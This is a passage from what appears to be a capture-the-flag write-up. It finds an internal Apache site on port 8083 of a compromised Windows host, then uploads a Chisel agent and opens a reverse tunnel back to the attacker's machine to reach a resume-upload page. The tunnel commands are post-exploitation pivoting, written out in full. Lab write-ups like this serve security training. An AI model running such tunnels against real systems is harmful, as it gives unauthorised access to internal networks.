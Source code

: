 After looking a bit further, we can find a virtual host configuration in `C:\xampp\apache\conf\httpd.conf`. It looks like the internal website is running on port `8083`.

```
#Listen 12.34.56.78:80
Listen 80
Listen 8083

<VirtualHost *:8083>
    DocumentRoot "C:\xampp\htdocs\internal"
    ServerName localhost:8083

    <Directory "C:\xampp\htdocs\internal">
        Options -Indexes +FollowSymLinks +MultiViews
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog "logs/myweb-error.log"
    CustomLog "logs/myweb-access.log" combined
</VirtualHost>
```

We can try to access the internal website by uploading a [Chisel](https://github.com/jpillora/chisel) agent on the host.

```console
(local) pwncat$ upload /home/bashee/Tools/Windows/chisel_1.9.1_windows_amd64 c.exe
(remote) tstark@DC:C:\Users\tstark$ .\c.exe client 10.10.14.7:8000 R:8083:127.0.0.1:8083

$ ./chisel_1.9.1_linux_amd64 server --port 8000 --reverse
```

We can now access the internal website by browsing to `http://127.0.0.1:8083` and we also find the page where we can upload a resume.

![Web form resume upload](../assets/images/writeups/office/resume-upload.png)
